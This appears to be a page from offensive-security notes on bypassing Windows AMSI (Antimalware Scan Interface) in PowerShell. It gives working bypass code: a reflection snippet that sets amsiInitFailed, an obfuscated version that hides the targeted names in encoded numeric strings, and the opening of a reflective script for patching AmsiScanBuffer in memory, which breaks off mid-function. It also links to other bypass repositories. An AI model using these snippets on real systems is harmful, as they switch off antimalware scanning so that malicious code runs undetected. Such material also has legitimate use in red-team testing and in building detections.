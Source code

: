 

### Set amsiInitFailed

By Matt Graeber [in 2016](https://twitter.com/mattifestation/status/735261120487772160?s=20):

{% code title="amsiInitFailed.ps1" %}
```powershell
$a = [Ref].Assembly.GetTypes()
ForEach($b in $a) {if ($b.Name -like "*iUtils") {$c = $b}}
$d = $c.GetFields('NonPublic,Static')
ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}}
$f.SetValue($null,$true)
```
{% endcode %}

Obfuscated:

- [https://github.com/tihanyin/PSSW100AVB/blob/main/AMSI_bypass_2021_12.ps1](https://github.com/tihanyin/PSSW100AVB/blob/main/AMSI_bypass_2021_12.ps1)

{% code title="amsiInitFailed-obf.ps1" %}
```powershell
$A="5492868772801748688168747280728187173688878280688776";$B="8281173680867656877679866880867644817687416876797271";function C($n, $m){[string]($n..$m|%{[char][int](29+($A+$B).substring(($_*2),2))})-replace " "};$k=C 0 37;$r=C 38 51;$a=[Ref].Assembly.GetType($k);$a.GetField($r,'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}



### Patch AmsiScanBuffer

* [https://rastamouse.me/memory-patching-amsi-bypass/](https://rastamouse.me/memory-patching-amsi-bypass/)
* [https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs](https://github.com/rasta-mouse/AmsiScanBufferBypass/blob/main/AmsiBypass.cs)
* [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsidll-amsiscanbuffer-by-rasta-mouse](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell#patching-amsidll-amsiscanbuffer-by-rasta-mouse)
* [0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)
* [https://gist.github.com/snovvcrash/cc97787d34938e9d93243a8e4947e560](https://gist.github.com/snovvcrash/cc97787d34938e9d93243a8e4947e560)

Re-implementing the method with reflective PowerShell:

{% code title="amsiScanBuffer.ps1" %}
```powershell
function lookupFunc {
    Param ($moduleName, $funcName)

    $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | ? { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp = @()
    $assem.GetMethods() | % {If($_.Name -eq 'GetProcAddress') {$tmp += $_}}
    return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $funcName))
}

function getDelegateType {
    Param (
        [Parameter(Position=0, Mandatory=$True)][Type[]] $argsTypes,
        [Parameter(Position=1)][Type] $retType = [Void]
    )

```